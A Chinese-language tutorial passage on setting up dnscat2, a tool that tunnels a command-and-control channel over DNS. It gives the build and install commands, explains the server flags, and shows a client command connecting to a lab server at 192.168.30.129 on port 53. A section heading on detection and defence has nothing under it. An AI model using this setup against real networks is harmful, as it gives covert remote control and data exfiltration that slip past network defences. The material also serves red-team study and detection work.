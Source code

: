 一、部署

```
#Client
$ git clonehttps://github.com/iagox86/dnscat2.git
$ cd dnscat2/client/
$ make
#Server
yum install rubygems
gem install bundler
git clonehttps://github.com/iagox86/dnscat2.git
cd dnscat2/server
bundle install
```

二、参数介绍  
请注意把 dnsch.cirrus.[domain] 换成你自己的域名。  
命令行中：

> -c 参数定义了 pre-shared secret，可以使用具有预共享密钥的身份验证来防止中间人（man-in-the-middle）攻击，否则传输数据并未加密，有可能被监听网络流量的第三方还原；如果不加定义，Dnscat2 会生成一个字符串，记得拷贝下来在启动客户端时使用。
> 
> -e 参数可以规定安全级别， open 代表让客户端进行选择。
> 
> —no-cache 请务必在运行服务器时添加无缓存选项，因为 powershell-dnscat2 客户端与 dnscat2 服务器的 caching 模式不兼容。

三、Usage  
如果目标内网放行了所有的 DNS 请求，那么就可以直接指定 HOST ，通过 UDP53 端口通信，而如果目标内网只允许和受信任的 DNS 服务器通信时就需要申请注意域名，并将运行 dnscat2 server 的服务器指定 Authoritative DNS 服务器，这里我们以第一种情况为例。  
四、细节如下  
1）Server

```
ruby ./dnscat2.rb
```

[![](https://p5.ssl.qhimg.com/t013c4d8a49008b4b7e.png)](https://p5.ssl.qhimg.com/t013c4d8a49008b4b7e.png)  
2）Client

```
./dnscat --dns server=192.168.30.129,port=53 --secret=a152c1cc946358825617f5cbcd3dce44
```

[![](https://p3.ssl.qhimg.com/t01fc95d5b630092ca2.png)](https://p3.ssl.qhimg.com/t01fc95d5b630092ca2.png)

3）Server 可以看到连接建立

[![](https://p2.ssl.qhimg.com/t01983e5007267e8b7a.png)](https://p2.ssl.qhimg.com/t01983e5007267e8b7a.png)

4）通信数据包特征

[![](https://p0.ssl.qhimg.com/t019905259051eae0e8.png)](https://p0.ssl.qhimg.com/t019905259051eae0e8.png)

五、检测与防御
